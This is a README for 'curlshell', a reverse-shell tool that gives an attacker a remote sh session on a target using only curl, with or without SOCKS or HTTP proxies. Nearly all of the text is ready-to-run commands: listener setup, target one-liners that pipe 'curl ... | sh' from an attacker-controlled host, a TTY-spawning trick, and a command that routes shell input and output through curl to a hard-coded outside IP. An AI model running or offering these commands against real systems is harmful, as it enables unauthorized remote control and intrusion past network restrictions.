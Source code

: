 # Reverse shell using curl

(Cloned from [https://github.com/irsl/curlshell](https://github.com/irsl/curlshell); slightly enhanced)

A reverse TCP shell through a proxy (using only cURL).

It allows an attacker to access a remote shell (sh) when the remote system can access the Internet via a Proxy only (and no other binaries can be installed or executed). It only needs `curl` and `sh`. The target does not need to have python.


Generate a SSL Certificate:
```sh
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -sha256 -days 3650 -nodes -subj "/CN=THC"
```

## Without Proxy

```sh
# Start your listener (your system)
./curlshell.py --certificate cert.pem --private-key key.pem --listen-port 8080
```
```sh
# On the target:
curl -skfL https://1.2.3.4:8080 | sh
```

## With SOCKS Proxy
```sh
./curlshell.py -x socks5h://5.5.5.5:1080 --certificate cert.pem --private-key key.pem --listen-port 8080 
```
```sh
curl -x socks5h://5.5.5.5:1080 -skfL https://1.2.3.4:8080 | sh
```

## With HTTP Proxy
```sh
./curlshell.py -x http://5.5.5.5:3128 --certificate cert.pem --private-key key.pem --listen-port 8080 
```
```sh
curl -x http://5.5.5.5:1080 -skfL https://1.2.3.4:8080 | sh
```

## With HTTP (plaintext)
```sh
./curlshell.py --listen-port 8080
```
```sh
curl -sfL http://1.2.3.4:8080 | sh
```

# Advanced Tricks
Spawn a TTY shell
```sh
stty intr undef ;
./curlshell.py --shell 'script -qc /bin/bash /dev/null' --listen-port 8080 ; stty intr ^C
```

# How it works
The first cURL request pipes this into a target's shell:
```sh
exec curl -X POST -sN http://217.138.219.220:30903/input \
    | sh 2>&1 | curl -s -T - http://217.138.219.220:30903/stdout
```

This command starts two cURL processes and connects another shell's input and output these two cURL. HTTP's 'chunked transfer' (`-T`) does the rest.

